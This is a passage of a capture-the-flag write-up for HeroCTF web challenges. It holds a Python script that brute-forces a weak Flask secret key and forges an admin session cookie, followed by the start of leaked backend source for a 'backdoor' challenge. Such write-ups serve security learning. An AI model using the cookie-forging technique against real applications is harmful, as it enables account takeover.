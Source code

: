 ```python
def encodeFlaskCookie(secret_key, cookieDict):
    sscsi = SimpleSecureCookieSessionInterface()
    signingSerializer = sscsi.get_signing_serializer(secret_key)
    return signingSerializer.dumps(cookieDict)

# solution:
for a in (hexdigits):
    secret_key = a*32 
    cookie=encodeFlaskCookie(secret_key,  {u'username':'admin'})
    r =requests.get('https://smallbigmistake.web.heroctf.fr/', cookies={"session":cookie})
    print(r.text)
```
inorder for us to pass the cookie (as username:admin) we need to first sign it using flask, so we looped over each letter (example: a* 32)
>Hero{Sm4ll_Mist4ke_c4n_be_d4ngerous_10853085}

---

### where backdoor - web
![](https://i.imgur.com/XLYfsmd.png)

notices there was in /assets/ a zip file with source.zip
```
USE user_db;

CREATE TABLE IF NOT EXISTS USERS (
    id INT PRIMARY KEY,
    name VARCHAR(255),
    password VARCHAR(255)
);

INSERT INTO USERS VALUES (1, "user1", "dummyPass1");
INSERT INTO USERS VALUES (2, "user2", "dummyPass2");
```
and
```
const express = require('express');
const util = require('util');
const cors = require('cors');
const mysql = require('mysql');
const exec = util.promisify(require('child_process').exec);

const app = express();

var corsOptions = {
    origin: '*',
    optionsSuccessStatus: 200
  }
  
app.get('/test', cors(corsOptions), function (req, res) {
    const { param } = req.query;
    res.status(200).send('This is a test GET endpoint\nPARAM: '+(param || "empty"));
})

app.get("/db_connection", cors(corsOptions), async (req, res) => {
    
    const con = mysql.createConnection({
        host: "localhost",
        user: "player",
        password: "REDACTED",
        database: "user_db"
    });
    
```